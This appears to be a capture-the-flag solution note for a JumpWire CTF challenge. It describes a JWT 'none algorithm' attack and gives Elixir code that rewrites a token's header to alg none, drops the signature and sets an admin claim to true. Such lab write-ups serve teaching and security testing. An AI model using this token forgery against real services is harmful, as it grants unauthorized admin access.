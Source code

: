 # JWT

Vulnerable to a "None Algorithm Attack". This requires getting a JWT (`GET /register`), then modifying it with the following properties:

- header alg set to `none`
- signature removed (the part is needed, so the token ends in `.`)
- update the payload to set the claim `https://ctf.jumpwire.ai/admin` to `true`

Elixir example:

``` elixir
token = "eyJhbGciOiJIUzUxMiIsInR5cCI6IkpXVCJ9.eyJhdWQiOiJub3RhcnkiLCJleHAiOjE2NzM1NzA5NzgsImh0dHBzOi8vY3RmLmp1bXB3aXJlLmFpL2FkbWluIjpmYWxzZSwiaWF0IjoxNjcxMTUxNzc4LCJpc3MiOiJub3RhcnkiLCJqdGkiOiIxZWIxZjRmZi00OTg3LTQyMzItYThkMy1jZDE4ODU5MTgwM2QiLCJuYW1lIjoiYm9iIiwibmJmIjoxNjcxMTUxNzc3LCJzdWIiOiJlOGYzN2NhOC1mYzE5LTRiOWMtYWQyMC1kYTU2YjM4Y2M3NmUiLCJ0eXAiOiJhY2Nlc3MifQ.SAl-kUVkbf2MUkMajddgMHFCNulO_6nLAWD_98e-1G6Typz4peFToU3tPl8WsojXyd4Lb0pYNchgvdscGD6zug"

[headers, payload, _sig] = String.split(token, ".")

headers = headers
|> Base.decode64!(padding: false)
|> Jason.decode!
|> Map.put("alg", "none")
|> Jason.encode!
|> Base.encode64(padding: false)

payload = payload
|> Base.decode64!(padding: false)
|> Jason.decode!
|> Map.put("https://ctf.jumpwire.ai/admin", true)
|> Jason.encode!
|> Base.encode64(padding: false)

headers <> "." <> payload <> "."
```
